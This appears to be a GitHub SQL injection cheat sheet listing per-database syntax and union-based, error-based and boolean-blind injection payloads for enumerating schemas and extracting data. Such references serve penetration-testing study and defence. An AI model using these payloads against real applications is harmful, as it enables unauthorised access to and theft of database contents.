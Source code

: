 <h1>SQL Injection Cheat Sheets</h1>
<p>This contains examples of useful syntax to perform SQL injection Attacks.</p>

<a href="https://github.com/kaung-khant-zaw223/cheat-sheets/blob/main/SQL_Injection_ByPass_Payloads.md">SQL Injection Bypass Payloads</a>

<h2>String Concatenation</h2>
<p><b>Oracle      :</b> 'foo'||'bar'</p>
<p><b>Microsoft   :</b> 'foo'+'bar'</p>
<p><b>PostgreSQL:</b> 'foo'||'bar' </p>
<p><b>MySQL:</b> 'foo' 'bar'</p>

<h2>Substring</h2>
<p><b>Oracle:</b> SUBSTR('foobar', 4, 2)</p>
<p><b>Microsoft:</b> SUBSTRING('foobar', 4, 2)</p>
<p><b>PostgreSQL:</b> SUBSTRING('foobar', 4, 2)</p>
<p><b>MySQL:</b> SUBSTRING('foobar', 4, 2)</p>

<h2>Comments</h2>
<p><b>Oracle:</b> --comment</p>
<p><b>Microsoft:</b> --comment (or) /*comment*/ </p>
<p><b>PostgreSQL:</b> --comment (or) /*comment*/ </p>
<p><b>MySQL:</b> #comment (or) --comment (or) /*comment*/</p>

<h2>Database Version</h2>
<p><b>Oracle:</b> SELECT banner FROM v$version (or) SELECT version FROM v$instance</p>
<p><b>Microsoft:</b> SELECT @@version</p>
<p><b>PostgreSQL: </b> SELECT version()</p>
<p><b>MySQL:</b> SELECT @@version </p>

<h2>Database Contents</h2>
<p><b>Oracle:</b> SELECT * FROM all_tables (or) SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE' </p>
<p><b>Microsoft:</b> SELECT * FROM information_schema.tables (or) SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE' </p>
<p><b>PostgreSQL:</b> SELECT * FROM information_schema.tables (or) SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE' </p>
<p><b>MySQL:</b> SELECT * FROM information_schema.tables (or) SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE' </p>

<h2>Conditional Errors</h2>
<p><b>Oracle:</b> SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual</p>
<p><b>Microsoft:</b>SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END</p>
<p><b>PostgreSQL:</b>SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END</p>
<p><b>MySQL:</b>SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')</p>

<h2>UNION BASED</h2>
<p>order by </p>
<p>union select</p>
<p>group_concat(table_name) from information_schema.tables where table_schema=database()</p>
<p>group_concat(column_name) from information_schema.columns where table_name='table_name'</p>
<p>group_concat(data) from table_name</p>

<h2>ERROR BASED</h2>
<b>Intro</b><br> 

SELECT count(*) from information_schema.tables;<br>
SELECT rand();<br>
SELECT floor(1.5);<br>
select 1 from y;<br>
select count(*),username from users group by username;<br>

<b>Variable</b><br>
SELECT count(*),CONCAT((SELECT @@version),0x3a,rand()) x FROM information_schema.tables group by x;<br>
SELECT @x;<br>
######
SELECT count(*),CONCAT((SELECT @@version),0x3a,floor(rand()*2)) x FROM information_schema.tables group by x;<br>
SELECT @x;<br>

<b> Version</b><br>
AND (SELECT 1 FROM (SELECT count(*),CONCAT((SELECT @@version),0x3a,FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y)<br>

<b>Table</b><br>
AND (SELECT 1 FROM (SELECT count(*),CONCAT((SELECT (table_name) from information_schema.tables where table_schema=database() limit 0,1),0x3a,FLOOR(RAND(0)*2)) x<br> FROM information_schema.tables GROUP BY x) y)<br>

<h2>Boolean Based Blind</h2>
<b>Intro</b><br>
select substr('abcde',1,1);<br>
select ascii('a');<br>
select ascii(substr(@@version,1,1));<br>

<b>True or False</b><br>
select ascii(substr(@@version,1,1)) < 50;<br>
select ascii(substr(@@version,1,1)) < 40;<br>
select ascii(substr(@@version,1,1)) = 49;<br>

<b>Testing</b><br>
1 and 1=1 -> True<br>
1 and 1=2 -> False<br>

<b>Version</b><br>
and ascii(substr(@@version,1,1)) = 49 -> First Character<br>
and ascii(substring(version(),2,1)) = 48 -> Second Character<br>

<b>Table</b><br>
and ascii(substring((select concat(table_name) from information_schema.tables where table_schema=database()),1,1)) > 100<br>
